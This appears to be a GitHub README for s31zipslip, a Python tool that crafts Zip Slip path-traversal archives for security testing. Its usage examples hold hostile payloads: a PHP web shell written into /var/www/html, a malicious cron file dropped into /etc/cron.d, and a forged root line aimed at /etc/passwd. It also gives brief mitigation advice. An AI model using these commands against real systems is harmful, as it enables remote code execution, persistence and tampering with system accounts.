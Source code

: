 # s31zipslip - Zip Slip Vulnerability Archive Creator

![Python](https://img.shields.io/badge/Python-3.6%2B-blue)
![License](https://img.shields.io/badge/License-MIT-green)
![Security](https://img.shields.io/badge/Security-Testing-orange)

A powerful tool for creating archives with Zip Slip vulnerability for authorized security testing and penetration testing purposes.

## 📖 About

s31zipslip is a Python utility designed to create archive files (ZIP, JAR, TAR, etc.) containing specially crafted paths that demonstrate the Zip Slip vulnerability (CVE-2018-1002200). This tool helps security professionals test their applications against directory traversal attacks through archive extraction.

## ⚠️ Important Warning

**This tool is for educational and authorized security testing purposes only.**
- Use only on systems you own or have explicit permission to test
- Never use this tool for illegal or malicious activities
- The author is not responsible for any misuse of this tool

## 🚀 Features

- Support for multiple archive formats: ZIP, JAR, TAR, TAR.GZ, TAR.BZ2
- Customizable target paths and filenames
- Flexible file content specification
- Clean and intuitive command-line interface
- Comprehensive error handling

## 📦 Installation

```bash
# Clone the repository
git clone https://github.com/yourusername/s31zipslip.git
cd s31zipslip

# Or download the script directly
wget https://raw.githubusercontent.com/yourusername/s31zipslip/main/s31zipslip.py
```

## 🛠️ Requirements

- Python 3.6+
- No external dependencies (uses standard library modules)

## 📋 Usage

### Basic Syntax
```bash
python3 s31zipslip.py -d TARGET_DIRECTORY -f FILENAME -o OUTPUT_FILE [-c CONTENT]
```

### Options
| Flag | Description | Example |
|------|-------------|---------|
| `-d, --directory` | Target directory path for Zip Slip | `../../../../../../../tmp/` |
| `-f, --filename` | Filename to create inside the archive | `test.txt` |
| `-o, --output` | Output archive filename | `exploit.zip` |
| `-c, --content` | File content (optional) | `"Malicious content"` |

### Examples

**Create a basic test archive:**
```bash
python3 s31zipslip.py -d '../../../../../../../tmp/a/' -f test.txt -o test.zip
```

**Create a TAR.GZ archive targeting cron directory:**
```bash
python3 s31zipslip.py -d '../../../../../../../etc/cron.d/' -f malicious.cron -o payload.tar.gz
```

**Create a JAR archive with PHP shell content:**
```bash
python3 s31zipslip.py -d '../../../../../../../var/www/html/' -f shell.php -o exploit.jar -c '<?php system($_GET["cmd"]); ?>'
```

**Create a TAR archive with custom content:**
```bash
python3 s31zipslip.py -d '../../../../../../../etc/passwd' -f shadow -o backup.tar -c 'root:x:0:0:root:/root:/bin/bash'
```

## 🎯 Supported Archive Formats

- **ZIP** (.zip)
- **JAR** (.jar) 
- **TAR** (.tar)
- **TAR.GZ** (.tar.gz, .tgz)
- **TAR.BZ2** (.tar.bz2)

## 🔍 How It Works

The tool creates archives containing files with malicious paths that include directory traversal sequences (`../`). When vulnerable applications extract these archives without proper path sanitization, the files can be written to unexpected locations outside the intended extraction directory.

## 🛡️ Protection Against Zip Slip

To protect your applications:
- Always validate and sanitize file paths during archive extraction
- Use canonical paths to resolve relative paths
- Extract files to a secure temporary directory
- Implement proper access controls

## 📝 License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## 🤝 Contributing

Contributions are welcome! Please feel free to submit a Pull Request.

## 🐛 Reporting Issues

If you find any bugs or have suggestions, please open an issue on GitHub.

## 📚 References

- [Zip Slip Vulnerability](https://github.com/snyk/zip-slip-vulnerability)
- [CVE-2018-1002200](https://nvd.nist.gov/vuln/detail/CVE-2018-1002200)
- [OWASP Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal)

---

**Remember: With great power comes great responsibility. Use this tool ethically and legally.**

